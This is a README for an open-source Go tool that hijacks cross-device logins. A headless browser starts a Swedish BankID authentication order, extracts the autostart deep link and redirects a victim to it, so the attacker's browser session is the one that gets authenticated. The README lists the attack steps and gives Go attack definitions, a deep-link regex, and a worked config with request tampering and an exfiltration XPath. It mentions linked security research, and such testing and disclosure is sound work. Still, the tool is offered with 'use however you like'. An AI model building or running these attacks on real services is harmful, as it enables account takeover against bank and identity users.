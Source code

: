 # Cross Device Authentication Tesing Tool

This tool was created to be able to easily test flaws in different cross device authentication protocols. Services relying on qr-codes and deep-links to authenticate remote or local browser sessions using their own mobile app are becoming increasingly popular, but testing their security can be quite difficult.

This tool relies on a headless browser to test for a simple attack that allows an attacker to start an authentication order against a service, extract or generate a deep link which will trick the victim's application to authenticate the remote session all on the fly as the victim is visiting our web server.

## Usage

Currently only one attack is available for use, slowly as other vulnerabilities get disclosed publicly more will be added. 

The attack available is to test Swedish BankID configurations, related to the research that can be found [here](https://mastersplinter.work/bankid)

This tool requires:
- `go >= 1.21.6` 
- `chromium` or `google-chrome` and the respective headless driver

After installing those dependencies the tool can be run with `go run .`.

## Attack steps

1. The victim visits the exposed web server hosted on port 8080 (victim can also be taken directly to step 2)
2. The victim clicks on the path hosting the attack
3. The headless browser goes to the target service and starts an authentication order
4. The deep-link is extracted/generated from the authentication order
5. The victim is redirected to the deep-link
    - Via server redirection straight to the deep link
    - To a secondary page that triggers the deep link with js and then navigates to the legitimate service website
6. After the victim authenticates on the service's mobile app our headless browser session will instead be authenticated

## Creating a new attack

While the tool might move towards configuration files to set these up, currently they are defined directly in the Golang code.

### Attack Type

An attack type is defined for each different IdP you are targeting, while the attack itself might differ service to service, the attack type is supposed to the define general parameters for the "family" of attacks:

```go
var BankIDAttack AttackType = AttackType{
	Name:      "bankid",
	Regex:     `(bankid:\/\/\/)?\?autostarttoken=[0-9a-fA-F]{8}-[0-9a-fA-F]{4}-[0-9a-fA-F]{4}-[0-9a-fA-F]{4}-[0-9a-fA-F]{12}&redirect=\w+`,
	Prefix:    "bankid:///",
	ReturnArg: "redirect",
}
```

- `Name`: Name for this type of attack
- `Regex`: Regex for the deep-link to be extracted
- `Prefix`: Prefix for the deep-link
- `ReturnArg`: Some IdPs like to redirect back to a webpage after auth using a parameter, set the name of such parameter if you want to try and hijack such a flow to find an open redirect

All of these parameters except `Name` are optional.

### Attack 

After defining your attack type you will now be able to use it to define an attack:

```go
type Attack struct {
	Url                 string                                                          // Main Url to visit
	RedirectURL         string                                                          // URL to redirect victim to (for higher impact)
	Actions             []chromedp.Action                                               // Actions of the headless browser
	CustomExtraction    func(string, string) string                                     // Custom action to extract the deep link
	RequestInterception func(ev *fetch.EventRequestPaused) *fetch.ContinueRequestParams // Action to modify request to get deep link
	Path                string                                                          // Path to host attack on
	Fixed               bool                                                            // Attack is fixed
	Type                AttackType                                                      // Type of attack
	CustomBrowserFlags  []chromedp.ExecAllocatorOption                                  // Custom flags to pass to the headless browser
	ExfiltrationSteps   []chromedp.Action                                               // Headless browsers steps to be taken to exfiltrate data (not required)
	ExfilArea           string                                                          // XPath for text to extract out of the page after exfiltration steps
}
```

Here is an example:

```go
{
    Url:  "https://www.bankid.com/demo",
    Path: "/bankid-demo",
    Actions: []chromedp.Action{
        chromedp.Sleep(1 * time.Second),
        chromedp.WaitVisible("/html/body/div/div[2]/div[1]/div[1]/div[1]/div/a[1]", chromedp.BySearch),
        chromedp.Click("/html/body/div/div[2]/div[1]/div[1]/div[1]/div/a[1]", chromedp.BySearch),
        chromedp.WaitVisible("/html/body/div/div[2]/div[1]/div[1]/div/div[2]/a", chromedp.BySearch),
        chromedp.Click("/html/body/div/div[2]/div[1]/div[1]/div/div[2]/a", chromedp.BySearch),
    },
    RedirectURL: "https://www.bankid.com/demo",
    Type:        BankIDAttack,
    ExfilArea:   `/html/body/div/div[2]/div[1]/div[1]/div/div[2]/div[2]/div[1]`,
    // Removing the test markdown text
    RequestInterception: func(ev *fetch.EventRequestPaused) *fetch.ContinueRequestParams {
        var fetchRequest *fetch.ContinueRequestParams
        if strings.Contains(ev.Request.URL, "/demo/api/authentication") {
            r, _ := base64.StdEncoding.DecodeString((ev.Request.PostDataEntries[0].Bytes))
            re := regexp.MustCompile(`"userVisibleData":"[^"]*"`)
            noDeviceData := re.ReplaceAllString(string(r), `"userVisibleData":""`)
            fetchRequest = fetch.ContinueRequest(ev.RequestID).WithPostData(base64.StdEncoding.EncodeToString([]byte(noDeviceData)))
        } else {
            fetchRequest = fetch.ContinueRequest(ev.RequestID)
        }
        return fetchRequest
    },
},
```

As shown the tool heavily relies on the `chromedp`, I recommend reading up on their docs and their examples to see the full extent of its capabilities [here](https://github.com/chromedp/chromedp).

Hopefully as more attacks get released here they will be sufficient to draw inspiration from.

### Running your new attack

Now that your attacks are defined, head over the `main.go` to change the default attack list and you should be able to see your brand you attacks when visiting `localhost:8000`

## Contributing

I know right now the tool is a bit rough around the edges, if more people find it valuable and would like a better interface with the tool (CLI and config options) I will definitely consider building it.

If you feel like that is something you would like to do feel free to shoot over a PR and I will be happy to merge it if it improves the usability and/or performance of the tool.

### Adding more attacks

I will be adding more I promise, however if you have some cool ones you would like to contribute please feel free to open a PR.

## Disclaimer

Feel free to use this tool however you like, of course I do not encourage nor take any responsibility for any illegal behavior done with this tool.